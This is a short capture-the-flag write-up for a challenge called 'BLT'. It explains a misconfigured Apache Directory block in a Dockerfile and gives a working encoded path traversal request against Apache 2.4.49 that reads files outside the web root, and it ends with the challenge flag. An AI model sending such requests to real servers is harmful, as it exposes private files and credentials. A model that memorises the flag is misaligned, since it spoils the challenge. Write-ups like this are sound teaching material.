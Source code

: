 # BLT

## Description

Our company provides services for the development of the most modern software.

Can you check our landing page for vulnerabilities?

Here's our website: **`164.90.201.196:8080/`**

{% file src="../../.gitbook/assets/blt_a559171c04.zip" %}

## Solution

Taking a look at the Dockerfile, we quickly see a misconfiguration in the `apache.conf` file.

```docker
RUN echo "<VirtualHost *:80>\n \
DocumentRoot /var/www/html/\n \
<Directory \"/\">\n \
 Require all granted\n \
</Directory>\n \
</VirtualHost>" > /usr/local/apache2/conf/apache.conf
```

Here, `<Directory />` refers to the _filesystem_ directory, not the web root. Hence, this configuration allows access to any file on the filesystem.

Taking a closer look a the server responses showed that the Apache server is on version 2.4.49, and vulnerable to a recent path traversal zero-day.

![](<../../.gitbook/assets/image (80) (1) (1).png>)

`GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/flag.txt HTTP/1.1` allows us to get the flag at `/flag.txt`.

The flag is `spbctf{th3_lat3st_d03s_n0t_m3an_s3cur3}`
